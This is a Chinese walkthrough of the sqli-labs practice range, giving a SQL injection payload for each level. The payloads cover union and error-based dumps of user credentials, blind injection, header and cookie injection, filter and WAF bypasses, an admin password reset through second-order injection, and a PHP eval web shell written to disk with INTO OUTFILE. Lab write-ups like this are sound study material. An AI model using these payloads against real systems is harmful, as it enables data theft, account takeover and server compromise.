

### 安装配置

网上资料很多，自行安装即可！

我这边 phpstudy 注册的靶场域名是 `sqli:10001`

 

### Less-1 基于单引号字符型注入

#### 前期探测

我们先为 id 传入一个 1，发现可以正常的获取数据  
`http://sqli:10001/Less-1/?id=1`

但是传入 0 时发现什么都没有！证明该数据表 id 列的最小边界值为 1  
`http://sqli:10001/Less-1/?id=0`

 

union 联合查询有一个特性，就是前后列数不一致时会返回报错信息，我们可以根据该报错信息来调整查询列数直到正好碰上正确的列数！

这里为了方便我们直接去看原始数据库，发现 users 表内仅有 3 列，故 union 查询时也需要 3 列！

 

#### union

查询当前数据库名称：

1. 由于 union 会拼接前后查询结果，故令前面的 id=0 使得查询不出结果，就只能显示后面的结果了
2. 注意两次查询的列数一致性！
3. database()是获取当前数据库名称的一个方法
4. --+不多说，注释掉后面的所有代码

`http://sqli:10001/Less-1/?id=0' union select 1,2,database() --+`

 

查询 users 表下的所有用户名及其密码：

1. `group_concat(username)` 表示将 users 表中的列 username 下的所有数据压缩成一行来显示
2. `group_concat(password)` 作用同上
3. `from users` 注意我们要提取的表名称！

`http://sqli:10001/Less-1/?id=0' union select 1,group_concat(username),group_concat(password) from users --+`

 

concat_ws 的使用  
语法：concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

`http://sqli:10001/Less-1/?id=0' union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 --+`

 

### Less-2 基于错误的整型注入

即 `id=1 and 1=1 --+`

 

### Less-3 基于错误的单引号变形字符型注入

即 `id=1') and 1=1 --+`

 

### Less-4 基于错误的双引号变形字符型注入

即 `id=1") and 1=1 --+`

 

### Less-5 基于单引号字符型的错误回显注入

> 基于 updatexml 函数的解释，请看我的另一篇文章 QWQ

通关密钥：`id=1' union select updatexml(666,concat('~',(select user())),'good luck') -- zhiyiyi`

 

### Less-6 基于双引号字符型的错误回显注入

通关密钥：`http://sqli:10001/Less-6/?id=1" union select updatexml(666,concat('~',(select database())),'good luck') -- zhiyiyi`

 

### Less-7 文件导入方式注入

主流平台文件结构  
winserver 的 IIS 默认路径`c:\Inetpub\wwwroot`  
linux 是`/usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm`  
apache 是`.../var/www/htm，.../var/www/html/htdocs`  
phpstudy 是`...\PhpStudy20180211\PHPTutorial\WWW\`  
xammp 是`...\xampp\htdocs`

 

首先查询得到网站文件的保存绝对路径，之后编写一句话木马并使用 outfile 将文件上传到服务器  
中国菜刀链接  
`?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "xxxx\\demo.php"--+`

 

### Less-8 布尔单引号盲注

单字符直接注意推测爆破即可  
逐一判断直到所有字符都对上数据库名称即可！  
`?id=1' and left((select database()),1)='c' -- -`

 

### Less-9 时间单引号盲注

如果数据库坐起第一个字符等于 s，那么就睡 3 秒，否则立即返回真  
如果撞对了，睡 3 秒直接就可以感觉出来，如果不行的话自行打开 f12 查看网络部分的延迟毫秒数  
`?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+`

爆表  
`?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='k' , sleep(3), 1) --+`

 

### Less-10 时间双引号盲注

和 less9 一样，只不过单引号改为双引号而已

 

### Less-11 错误 POST 单引号注入

burp 抓包，发现存在三个 post 参数：uname、password、submit；  
我们尝试对 uname 进行注入  
发现使用以下代码可以成功登入，即存在注入漏洞  
`uname=admin' and 1=1 -- - &passwd=admin&submit=Submit`

之后使用 extractvalue 进行爆表爆列的操作了

 

### Less-12 错误 POST 双引号注入

双引号使用 extractvalue 报错爆库  
`uname=admin" and extractvalue(1,concat('~',(select database())))  and " &passwd=admin&submit=Submit`

> 当然也可以使用双引号加括号构造闭合直接注入  
> 譬如在 username 输入 `admin")#` 直接就可以登陆

 

### Less-13 POST 单引号双注

和 less12 一致，双引号改为单引号+右括号即可

 

### Less-15 布尔型-时延单引号 POST 盲注

万能钥匙或者时间盲注都可以，这里采用时间盲注  
`uname=admin' and sleep(3) -- - &passwd=admin&submit=Submit`

 

### Less-17 错误更新查询 POST 注入

后端 php 代码显示对 uname 进行了严格的字符过滤，我们没法在这里注入；  
但却对 password 没有任何过滤，直接在这里单引号报错注入即可

 

### Less-18 错误用户代理头部 POST 注入

burp 抓包，把请求头的 user-agent 改成单引号报错注入的格式就完了

`'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '`

 

### Less-19 Referer 报错注入

和 user-agent 如出一辙，这里修改 Referer 属性值为注入语句即可

 

### Less-20 错误 Cookie 头部 POST

检查 php，发现 SQL 查询语句直接插入了 cookie，故我们在 cookie 上执行注入

还是老步骤：单双引号检测->order by->联合查询->报错注入

 

### Less-21 错误复杂字符 Cookie 注入

在注入之前，把载荷执行一次 base64 加密后再传入给 cookie

 

### Less-22 错误双引号字符 Cookie 注入

注入语句改双引号，没了

 

### Less-23 过滤注释 GET 报错注入

php 过滤掉了所有注释符号，需要构造闭合来保证  
`?id=' union select 1,2,database() '`

 

### Less-24 二次注入

映入眼帘的是一个注册/登陆页面

在注册用户内写入 `admin' -- -` ，此时的 SQL 语句如下，它自动注释掉了后面的限制语句，成功把 admin 的密码更改为 123  
`UPDATE users SET passwd="123" WHERE username =' admin' -- - ' AND password='`

之后使用 admin 以及密码 123 就可以成功登陆了！

 

### Less-25 过滤 or and

过滤？那咱们就双写 or 绕过就好了呀  
`http://sqli:10001/Less-25/?id=-1' oorr 1=1 -- -`

 

### Less-26 过滤注释空格

解题钥匙：`?id=1' ||'1`

此时构造完的语句是：`SELECT * FROM users WHERE id='1' || '1' LIMIT 0,1`  
显而易见，必定为真，爆数据

 

### Less-26a 过滤注释空格盲注

查看 php 的 SQL 语句可知：`SELECT * FROM users WHERE id=('$id') LIMIT 0,1`

构造闭合，查询数据库名称  
`?id=1') union select 1,database(),3 ||('1')=('1`

 

### Less-27 过滤 union select

大小写绕过  
`?id=0' uniOn sElEct 1,database(),3 or '1'='1 `

> 善用 `where 1=1` 可以起到关键效果

 

### Less-29 WAF 错误

WAF 定义：WAF 仅允许输入数字，他检测数字正确后才转发我们需要访问的页面；  
故需要伪造数字绕过 WAF

单引号绕过  
`?id=-1' union select 1,2,database() -- -`

 

### Less-32 引号转义

addslashes()函数可以对 SQL 语句中的每一个引号进行转义，即在引号前加上 `\`

宽字节注入：让 `\` 和前面的任意一个宽字节结合，构造一个实际不存在的字符，此时 `\` 后面的单引号就不会注释掉了

譬如下方 `%E6` 结合转义后的 `\`，即构成一不存在的字符  
`?id=-1%E6' union select 1,version(),database() -- -`

 

###
